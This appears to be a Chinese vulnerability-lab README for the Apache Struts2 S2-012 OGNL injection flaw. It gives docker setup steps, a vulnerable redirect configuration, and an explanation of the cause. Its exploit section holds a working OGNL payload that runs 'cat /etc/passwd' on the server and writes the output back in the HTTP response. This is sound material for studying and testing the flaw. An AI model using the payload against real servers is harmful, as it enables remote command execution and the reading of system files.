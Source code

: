 # S2-012 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.13

漏洞详情: http://struts.apache.org/docs/s2-012.html

## 测试环境搭建

```
docker compose build
docker compose up -d
```

## 原理

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

## Exp

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符（为什么？）。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：

![](1.png)
